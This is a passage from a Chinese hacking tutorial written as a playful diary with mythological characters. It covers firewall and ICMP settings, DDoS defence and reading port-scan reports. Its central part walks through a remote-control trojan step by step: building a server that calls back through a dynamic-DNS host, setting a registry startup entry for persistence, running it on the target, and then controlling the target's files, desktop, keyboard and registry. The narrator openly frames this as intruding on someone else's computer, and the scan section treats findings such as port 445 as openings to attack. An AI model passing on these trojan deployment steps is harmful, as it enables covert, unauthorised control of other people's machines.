“日志文件选项”点击浏览按钮，浏览要放置日志文件的位置，接着再在“文件名”中键入新的日志文件名，“打开”。OK。

在“大小限制”，可以使用箭头按钮调整安全日志文件的大小。

## 4、了解 Internet 控制信息协议（ICMP）（图20-4）

“网际消息协议（ICMP）”是所需的 TCP/IP 标准，通过 ICMP，使用 IP 通讯的主机和路由器可以报告错误并交换受限控制和状态信息。







在下列情况下，通常自动发送 ICMP 消息：

- 1. IP 数据包无法访问目标。
- 2. IP 路由器（网关）无法按当前的传输速率转发数据包。
- 3. IP 路由器将发送主机重定向为使用更好的到达目标的路由。

启用或禁用 Internet 控制消息协议的具体设置如下：打开“网络连接”，单击已启用 Internet 连接防火墙连接，然后在“网络任务|更改该连接”的设置中单击“高级|设置|ICMP”选项卡上，选中希望自己的计算机响应的请求信息。

ICF 是通过记录本机的 IP 请求来确定外来的 IP 数据包是不是“合法”，这当然不可以用在服务器上。为什么呢？服务器上的 IP 数据包基本上都不是由服务器先发出，所以 ICF 这种根本就不能对服务器的安全提供保护，而且 ICF 没法提供基于应用程序的保护，也没法建立基于 IP 包的包审核策略，所以只能用于个人计算机上，没法工作在应用服务器上。

唐僧的袈裟确实厉害。这样我入侵别人的同时就不怕被人反入侵了。可是我还缺少一个比较好的小马，可以让我控制后羿的机器。


白龙马毛遂自荐，来找我，它说：“既然师傅都好不吝啬袈裟，我就做回间谍去帮你入侵后羿的机器。”我拍了拍白龙马，不愧为一匹好马啊。我一定好好地使用你。你一定会不辱使命的。

白龙马——魔法远程控制系统是一个强大的远程控制软件，为个人提供远程办公和管理电脑的远程控制功能，具有以下特点：

- 1、魔法连接技术  
  被控电脑会自动连接显示，无须 IP 搜索。
- 2、文件资源管理器  
  能方便浏览和传输文件。
- 3、桌面监视和控制  
  如同操作自己桌面一样，控制远程桌面。
- 4、能穿过防火墙限制  
  可以在局域网外对局域网内的电脑进行控制（HTTP 隧道技术）。
- 5、中转服务器连接  
  无论控制端或服务端在局域网内或代理上网，通过中转服务器，做到只要能上网就能远程控制。

# 第三章：我的拜师生涯

程序主界面如图 21-1。

- 1. 制作服务器，请按服务器按钮。打开 magiclink.exe 程序，按“服务器”按钮。
- 2. 选择设置服务器的连接方式（以下连接方式选一个即可）：
  - FTP 连接方式
  - 动态域名连接方式
  - 主动连接方式
  - 中转服务器连接



下面就介绍一下现在比较流行的“动态域名连接方式”：你可以到 www.3322.org 申请一个动态域名，申请后会得到一个比如 zhanshenmars.3322.org 的动态域名。



这就是你每次上网后指向你 IP 地址的域名。例如：动态域名：zhanshenmars.3322.org。连接端口：1087（图 21-2 为我所设置的内容）。如果你有固定 IP 的话设置就极其简单。

直接在“动态域名或固定 IP”中填入你的固定 IP，然后在“连接端口”中填入 1087 就 OK 了。

然后，选择服务器设置面板里的“动态域名”连接选项（图 21-3）。当设置好连接方式后，就可以生成服务器了（图 21-4）。

- 1. 添加连接方式：选择你设置的、需要使用的连接方式。



按“___”方式，也可以选择“监听模式”，连接方式可以混合捆绑。

- 2. 设置其他选项（图21-5）





图21-4

图21-5

- 服务器图标
- 启动选项名（写入系统注册表启动项里的名字）
- 启动程序名（服务器运行时候的名字）
- 服务器登录密码（登录服务器时候需要输入的密码）

- 3. 测试服务器  
  一切配置完成，请按测试服务器按钮，来验证服务器是否正常工作。

- 4. 生成服务器  
  如果测试成功就可以按生成服务器按钮，生成最终的服务器程序了。

好了，现在连接服务器。

- 1. 安装服务器  
  在你需要控制的电脑上，运行做好的服务器程序，服务器会随下次 Windows 一起启动。

- 2. 查找登录服务器  
  按“查找连接”按钮，在一分钟之内，服务器就自动上线了（图21-6）。

（在查找连接时请关闭电脑防火墙，以防连接被防火墙阻挡）  
此外，服务器不能自动上线，在 WinXP 下请关闭 XP 的防火墙。



图21-6



图21-7

## 主动连接

如服务器已经绑定了一个监听模式，就可以进行主动连接，主动连接需要知道服务器的 IP 地址。  
选择菜单服务器->主动连接（图21-7）

## 登录服务器

选择一个服务器，按登录按钮，就登录到远程电脑了。

## 黑客日记

现在你就可以对计算机进行远程控制了。

- 1. **目录管理（图21-8）**

能实现文件目录删除、建立目录、上传下载文件（断点续传）、上传下载文件夹、打开文件、移动文件目录、查找文件等功能。



图21-8


图21-9

- 2. **桌面管理（图21-9）**

可对远程桌面窗口图标及任意桌面元素进行操作（单击、双击和拖曳操作），及时查看桌面图像。

可在目标计算机进行键盘输入操作。可发送消息。

- 3. **系统操作**

远程注册表管理，系统进程管理，DOS 控制台，重新启动，关闭计算机。

## 黑客日记

## 第三章：会攻击还要会防

| 条目 | 页码 |
|---|---|
| 日记二十二：服务器防D很重要 | 54 |
| 日记二十三：分析扫描结果 | 55 |
| 日记二十四：服务器溢出漏洞分析总结 | 57 |
| 日记二十五：缓冲区溢出攻击的防范方法 | 61 |
| 日记二十六：反入侵 | 63 |

## 日记十三：服务器防D很重要

后羿元年　5月5日　星期五　下大雨（后羿的日记）

其实我作为西王母亲封的三界服务器巡查使，天下第一黑客，是绝对具有超高的水平的（小行：你还真能吹啊！），因为好的黑客不但要会黑，并且在防的方面也要有过人之处。自从进入 21 世纪以后，网上采用 DDoS 方式进行攻击的攻击者日益增多，我深知只有及早发现自己受到攻击才能避免遭受惨重的损失。所以自从上任后就开始布置起来了，针对防止 DDoS 攻击也没少下工夫。首先就是改了以前做黑客时的懒散，每天经常地检查网络运行情况。一般当网络的通讯量突然急剧增长，超过平常的极限值时；就一定要提高警惕，检测此时的通讯；当网站的某一特定服务总是失败时；也要多加注意；当发现有特大型的 TCP 和 UDP 数据包通过或数据包内容可疑时都要留神。

> **小行友情提醒：** 总之，当你的机器出现异常情况时，你最好分析这些情况，防患于未然。再就是使用工具，一物降一物，用工具能及早发现异常情况。当攻击者想使其攻击阴谋得逞时，他首先要扫描系统漏洞，目前市面上的一些网络入侵检测系统，可以杜绝攻击者的扫描行为。另外，一些扫描器工具（详细内容见第三章！）可以发现攻击者植入系统的代理程序，并可以把它从系统中删除。

可以肯定的是，完全杜绝 DDoS 目前是不可能的。这个倒不是我后羿的能力不行，而是目前实在没什么好的防护办法。一位资深的安全专家给了个形象的比喻：DDoS 就好像有 1000 个人同时给你家打电话，这时候你的朋友还打得进来吗？但是通过适当的措施抵御 90% 的 DDoS 攻击是可以做到的，基于攻击和防御都有成本开销的缘故，若通过适当的办法增强了抵御 DDoS 的能力，也就意味着加大了攻击者的攻击成本，那么绝大多数攻击者将无法继续下去而放弃，也就相当于成功地抵御了 DDoS 攻击。以下为我几个月以来抵御 DDoS 的经验和建议，和大家分享！当然你们能看到我的日记的话！

- 1. 及早发现系统存在的攻击漏洞，及时安装系统补丁程序。对一些重要的信息（例如系统配置信息）建立和完善备份机制。对一些特权账号（例如管理员账号）的密码设置要谨慎。通过这样一系列的举措可以把攻击者的可乘之机降低到最小。
- 2. 在网络管理方面，要经常检查系统的物理环境，禁止那些不必要的网络服务。建立边界安全界限，确保输出的包受到正确限制。经常检测系统配置信息，并注意查看每天的安全日志。
- 3. 利用网络安全设备（例如防火墙）来加固网络的安全性，配置好它们的安全……
- 4. 比较好的防御措施就是和你的网络服务提供商协调工作，让他们帮助你实现路由的访问控制和对带宽总量的限制。
- 5. 当你发现自己正在遭受 DDoS 攻击时，你应当启动你的应付策略，尽可能快地追踪攻击包，并且要及时联系 ISP 和有关应急组织，分析受影响的系统，确定涉及的其他节点，从而阻挡从已知攻击节点的流量。
- 6. 当你是潜在的 DDoS 攻击受害者，你发现你的计算机被攻击者用作主控端和代理端时，你不能因为你的系统暂时没有受到损害而掉以轻心，攻击者已发现你系统的漏洞，这对你的系统是一个很大的威胁。所以一旦发现系统中存在 DDoS 攻击的工具软件要及时把它清除，以免留下后患。

作为有可能被人侵的对象，没必要太过紧张，只需尽快采取合理和有效的措施即可。现在的拒绝服务攻击服务器都只被安装到 Linux 和 Solaris 系统中。虽然可能会被移植到 *BSD* 或其它系统中，但只要这些系统足够安全，系统被人侵的可能性不大。现在互联网上有许多旧的和新的漏洞攻击程序，一般我们去些漏洞站点就可以查看到的。入侵者总是利用已存在的漏洞进入系统和安装攻击程序。所以我们要经常检查服务器配置和安全问题，运行最新升级的软件版本，最重要的一点就是只运行必要的服务。如果能够完全按照以上思路，系统就可以被认为是足够安全，而且不会被人侵控制。

周期性审核系统；检查文件完整性；发现正在实施攻击时，必须立刻关闭系统并进行调查。如果监测到（或被通知）网络或主机正实施攻击，应该立刻关闭系统，或者至少切断与网络的连接。因为这些攻击同时也意味着入侵者已几乎完全控制了该主机，所以应该进行研究分析和重新安装系统。建议联系安全组织。必须记住，将攻击者遗留在入侵主机中的所有程序和数据完整地提供给安全组织或专家非常重要，因为这能帮助追踪攻击的来源。

## 日记三十三：分析扫描结果

后梁元年　5月6日　星期六　下小雨（后梁的日记）

擒贼，必须想贼之所想。若要阻止别人入侵你，首先你必须学会攫取他们的思想。你以为自己的电脑或者网络真的有那么安全吗？想知道它是否真正安全，办法只有一个，就是通过黑客的方式来检测你自己的电脑。扫描就为入侵前的构思做准备，后羿深知这一点。所以不止是这段时间逢蒙在学习扫描技术，后羿也系统地研究了扫描技术，并定期对自己的系统进行扫描。一个端口就是一个潜在的通信通道，也就是一个入侵通道。对本机进行不定期的端口扫描，能得到许多有用的信息。通过端口扫描，可以得到许多有用的信息，从而发现系统的安全漏洞。它使系统用户了解系统目前向外界提供了哪些服务，从而为系统用户管理网络提供了一种手段。

## 黑客日记

# 第三章：会攻还要会防

成一个完整的 TCP 连接，在扫描主机和目标主机的一指定端口建立连接时只完成了前两次握手，在第三步时，扫描主机中断了本次连接，使连接没有完全建立起来，这样的端口扫描称为半连接扫描，也称为间接扫描。

所以一定要定期地进行扫描！扫描主要通过以下两种方法来检查目标主机是否存在漏洞：在端口扫描后得知目标主机开启的端口以及端口上的网络服务，将这些相关信息与网络漏洞扫描系统提供的漏洞库进行匹配，查看是否有满足匹配条件的漏洞存在；通过模拟黑客的攻击手法，对目标主机系统进行攻击性的安全漏洞扫描，如测试弱口令等。若模拟攻击成功，则表明目标主机系统存在安全漏洞。

会扫描，还必须学会看扫描报告，只有这样才能很好地分析问题，检测出漏洞来。否则你就是白扫描，什么用都没有。这里我们就好好地看下逄蒙是怎么用 x-scan3.3 扫描并怎么分析报告的。为大家扫描完一个服务器后，系统会根据扫描结果给出一个报告，并且会详细地介绍该端口的漏洞，并且给出相应的补丁，当然了补丁就不是我们讨论的范围了！


我们讨论的是在进行扫描后，如何去仔细地看扫描报告，并且根据报告在自己的脑海里构思入侵方法。大家先看下（图23-1）。

呵呵，这个服务器的漏洞还真不少啊。当看到这个报告时，你会想到什么？别告诉我你脑子一片空白啊！“逄蒙第一次看到还以为是天书呢！

> **小行温馨提示：** 扫描报告出来以后，先看后面红色的东西了，因为那些提示可以为我们的入侵提供一些思路。

先来看看红色的提示漏洞 microsoft-ds（445/tcp）。如果你清楚它对应的漏洞知识的话，就去翻自己的兵器库吧！“三下五除二地解决掉这个服务器。因为根据漏洞来解决战斗不是问题啊！

